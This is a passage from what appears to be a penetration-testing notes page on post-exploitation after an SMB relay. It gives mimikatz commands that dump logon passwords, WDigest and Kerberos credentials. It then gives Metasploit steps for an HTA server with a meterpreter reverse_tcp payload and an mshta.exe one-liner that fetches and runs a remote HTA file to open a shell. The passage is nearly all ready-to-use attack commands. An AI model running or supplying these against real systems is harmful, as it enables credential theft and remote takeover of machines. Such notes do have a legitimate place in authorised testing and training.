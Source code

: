 we can run mimicatz commands with mimi \[cmd\]:

```text
mimi sekurlsa::logonpasswords
mimi sekurlsa::wdigest
mimi sekurlsa::Kerberos​
```

## Meterpreter Shell

we can also use this cmd shell to pop a meterpreter shell:

```text
use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
```

![](../../../.gitbook/assets/image%20%28226%29.png)

now in the cmd shell from multirelay type in :

```text
mshta.exe http://192.168.56.1:8080/BdssjDFeW7IDPKF.hta
```

done!

#### other ways to get a meterpreter shell:

{% embed url="https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/" %}





